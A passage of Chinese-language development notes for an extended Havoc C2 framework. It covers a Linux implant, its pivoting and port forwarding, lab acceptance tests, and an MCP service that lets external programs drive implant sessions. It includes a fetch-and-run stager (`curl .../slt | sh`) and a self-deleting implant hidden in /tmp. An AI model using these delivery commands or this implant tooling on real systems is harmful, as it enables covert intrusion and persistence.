  killdate、working hours），用 `HAVOC_GO` → `PATH` → `toolchain/go/bin/go` 找到的工具链
  `GOOS=linux GOARCH=amd64|386 CGO_ENABLED=0 go build`；
- 协议：与 C Demon 相同的包结构/AES-256-CTR（请求大端、响应小端），
  注册包尾部追加可选的 `[platform=2][osName]`，teamserver 解析后会话「系统」列显示
  `Linux …`、`Platform=linux`；Windows Demon 不发送，保持兼容；
- Web：载荷格式新增 `Linux Exe`（Windows 专属配置项自动隐藏）；
  Qt 客户端的载荷对话框也新增 `Linux Exe`（已重新编译 `client/Havoc`，**需重启客户端**生效），
  Linux 会话的 `shell` 自动改用 `/bin/sh -c`，`powershell` 明确报错；
- 已支持：`shell`、`pwd/cd/ls/dir/cat/rm/mkdir/cp/mv/download/upload`、
  `proc list/grep/kill/create`、`checkin`、`sleep`、`exit`；
- 监听器：HTTP/HTTPS 直接回连；8 种传输监听器（tcp/kcp/udp/ws/dns/doh/dot/oss）
  通过「Go 中继器 + 带 127.0.0.1:1080 代理的 HTTP 监听器」支持（代理配置烘焙进 ELF）；
  SMB pivot 不支持（Windows 命名管道），External 本就不生成 Demon 载荷；
- 新增原生 `screenshot`（X11：`import`/`grim`/`xwd+convert`，PNG 入战利品）；
- Web 网关新增 `linux_compat.py`：把 `whoami/env/ipconfig/netstat/arp/routeprint/listdns/
  locale/uptime/resources/userenum/netuser/sessions/quser/tasklist/net users|localgroup|
  sessions|domain/powershell(pwsh)` 等模块命令改写为 Linux 原生命令；
  `help` 对 108 条命令中的 72 条 Windows 专有项追加「仅 Windows」标注，`help <cmd>` 显示 Platform；
- 命令兼容（2026-11-10 收尾）：teamserver 新增 `pkg/agent/linux_compat.go`，
  **Qt/第三方客户端**对 Linux 会话下发 `whoami/env/ipconfig/netstat/arp/routeprint/
  listdns/locale/uptime/resources/userenum/netuser/sessions/quser/nslookup/windowlist`
  时自动改写为 `COMMAND_PROC` + `/bin/sh -c`，`tasklist` 改写为 `COMMAND_PROC_LIST`，
  `net users|localgroup|sessions|domain` 改写为 `getent/who/hostname`；
  带回调的 BOF 不改写，Windows 会话路径完全不变；
- SOCKS / 端口转发：`socks add`（teamserver 侧 SOCKS5）+ `rportfwd add/list/remove/clear`
  （目标侧监听、teamserver 转发）已实现（`COMMAND_SOCKET`），实测 143 KB 文件经 SOCKS 传输一致；
  **rportfwd 已流式化**：teamserver `PortFwdRead` 改为分块读取并立即下发
  `SOCKET_COMMAND_WRITE`，`OPEN` 后立即连目标并启动读循环，
  SSH banner 等“服务端先说话”的协议无需客户端先发数据；agent 保持 HTTP keep-alive，
  不再需要 `Connection: close`；
- 会话 Listener 字段：注册时写入监听器名（`LAN-Test`/`Hop2`…），
  `TS_Agents` 新增 `Listener`/`Platform` 列并自动迁移旧库，重启后保留；
- 多跳：从 DB 恢复 HTTP 监听器时补回 `PortConn`，重启 teamserver 后
  Hop2/Hop3 的回连端口不再丢失。
- 未支持（Linux 无等价语义）：AD CS/Kerberos/注册表/服务/计划任务/令牌/注入/BOF/.NET/WMI/
  `nanodump`/`pivot`（SMB）/`transfer`/`job`/`config`、`proc modules/memory`；
- 已知差异：Go 二进制约 6 MB（未做 UPX）、无休眠混淆。

本机验收（Kali 192.168.121.132，LAN-Test 监听器）：

| 项目 | 结果 |
| --- | --- |
| Linux Exe x64 构建 | `demon.x64.elf` 6,127,776 字节，ELF 64-bit static |
| Linux Exe x86 构建 | `demon.x86.elf` 5,996,704 字节，ELF 32-bit static |
| 上线 | 会话 `690b6bc2` / `4bd685d9`，系统列 `Linux Kali GNU/Linux Rolling`，sleep/jitter 与生成参数一致 |
| shell | `uname -r` → `6.19.14+kali-amd64`，`id -un` → `kali` |
| 文件 | `pwd`、`ls`、`cat`、`download /etc/hostname`（落盘 loot）、`upload` 往返一致 |
| 进程 | `proc list` 277+ 行、`proc grep demon`、`proc kill <pid>` 成功 |
| 其它 | `checkin`、`sleep 5 20` 生效；Windows 载荷构建/acceptance 15/15/command 34/34 无回归 |
| HTTPS 监听器 | TLS-Test :8443 生成并上线，会话 `2f5315d3` healthy |
| 传输中继 | Relay-TCP(:9001) / Relay-WS(:9002) 各上线一次，中继计数增长 |
| 截图 | `screenshot` → `Desktop_*.png`（2558×1360）保存到战利品 |
| 原生命令 | `whoami`→`id`、`ipconfig`→`ip -brief addr`、`tasklist`→`proc list` 等实测回显 |
| help 标注 | Linux 会话 72 条「仅 Windows」标记；`help token` 显示 Platform=仅 Windows |
| Linux 一键上线 | `/slt` 生成 sh 脚本；从已有会话 `shell curl .../slt \| sh` 投递成功，新会话 `1ecd5198`（`/tmp/.hx64.<pid>`），进程自删除 |
| Linux 三层跳板 | A(`4c0b4946`) → B(`0ea33e9a`，经 A:18080 rportfwd) → C(`4bcf295f`，经 B:18090 rportfwd)，三层链上 `shell id -un; hostname` 输出 `kali/bogon`；Hop2/Hop3 的 `PortConn` 在 teamserver 重启后仍保留 |
| rportfwd 流式 | 真实 sshd：raw TCP 不发数据 1.0–2.2s 收到 `SSH-2.0-OpenSSH`；同一 HTTP 连接经 rportfwd 连续两次 200（keep-alive，无需 `Connection: close`） |
| 命令兼容 | Qt 同款包（`COMMAND_INLINEEXECUTE`）`whoami` → `uid=1000(kali)`、`tasklist` → `Process List`、`net users` → `/etc/passwd`；Windows `shell whoami` 无回归 |
| 会话 Listener | 新会话（LAN-Test）显示 `Listener=LAN-Test`，DB 重启后保留；`linux_agent_test.py` 20/20 |
| Qt 面板 | Linux 行已启用并生成 `curl -fsSL .../slt \| sh`（`client/Havoc` 已重编，需重启客户端） |

详情与协议说明见 `havoc-src/payloads/DemonLinux/README.md`。

### 14.11 MCP 外部调用（Web 全部功能）

网关内置 MCP（Model Context Protocol）服务，把 Web 的 69 项能力（会话/命令/文件/进程/
监听器/聊天/事件/战利品/载荷/商店/脚本/Python 宿主）暴露给外部程序：

- HTTP：`POST http://<网关>:8081/mcp`，`Authorization: Bearer <run/mcp.token>`
- stdio：`python3 webui/mcp_server.py --stdio`（本机 MCP 客户端直接拉起）
- 令牌：首次启动生成 `webui/run/mcp.token`（0600），或在 `config.json → mcp.token` 固定
- 信息：`GET /api/mcp/info`；工具清单：`python3 webui/mcp_server.py --list-tools`
- 管理页：顶部菜单 `MCP → MCP 管理`（可关闭标签页）查看运行态/端点/令牌掩码/能力计数，
  并可**不重启网关**启停 `/mcp`、复制或轮换令牌；`帮助 → MCP 接入` 保留接入信息
- 端口：管理页可直接修改 MCP 监听端口（`0`=复用 WebUI 的 8081；`1..65535`=独立端口）。
  独立端口只提供 `/mcp`，WebUI 端口的 `/mcp` 返回 `404 moved`；修改会写回
  `webui/config.json → mcp.port` 并在重启后保持，端口占用返回 409 并保留原端口
- 启停语义：停止后 `POST/GET/DELETE /mcp` 统一返回 `503`（JSON-RPC error，含“MCP 已停止”），
  旧 `Mcp-Session-Id` 立即失效；浏览器 REST/WS、投递链、Python SDK 不受影响；
  运行态持久化到 `webui/data/mcp_state.json`，网关重启后恢复
- 验收：`cd webui && python3 mcp_test.py`（离线 40 项）、`python3 mcp_test.py --live`（47 项）、
  `python3 mcp_admin_test.py`（管理页 92 项）

MCP 与浏览器共用同一套状态、审计与权限；令牌等同操作员权限，请勿外泄。
完整工具表与客户端配置示例见 `webui/README.md` 第 10 节。

### 14.12 文档与排障

- 详细设计、REST/WS 接口、Python SDK、已知限制：`webui/README.md`
- 状态自查：`curl -s http://127.0.0.1:8081/api/health`
- 网关日志：`tail -f logs/webui.log`；进程：`ss -ltnp | grep 8081`
- 协议/功能脚本：`webui/probe.py`、`webui/testsend.py`、`webui/e2e_test.py`、
  `webui/reconnect_test.py`、`webui/ui_feature_test.py`

> 安全：网关默认监听 `0.0.0.0:8081` 仅为方便 Windows 侧访问，**不要暴露到办公网/公网**；
> 测试结束执行 `webui/stop-webui.sh`。需要加密传输时配置 `web.tls_cert`/`web.tls_key`。
